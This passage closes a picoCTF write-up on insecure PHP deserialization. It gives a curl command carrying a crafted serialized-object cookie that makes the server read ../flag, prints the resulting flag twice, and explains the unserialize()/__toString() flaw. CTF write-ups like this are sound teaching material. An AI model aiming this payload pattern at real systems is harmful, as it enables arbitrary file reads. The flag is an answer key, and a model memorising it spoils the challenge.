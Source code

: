 ###  Send the malicious cookie

Using `curl`, I sent a request to the site with the crafted cookie:

```bash
curl http://mercury.picoctf.net:3449/authentication.php --cookie "login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9"
```

The server responded with an error message that included the string value of the object, which in turn contained the contents of the file `../flag`.

---



The response revealed the flag:

```
Deserialization error. picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_b4e3f8b1}
```

---

## Conclusion

This challenge demonstrated an insecure PHP deserialization vulnerability, where untrusted data was passed into `unserialize()` without validation or class whitelisting. By exploiting the `__toString()` method of a harmless-looking class and triggering it via error handling, I was able to read an arbitrary file on the server and obtain the flag.

---

## Final Flag

```
picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_b4e3f8b1}
```
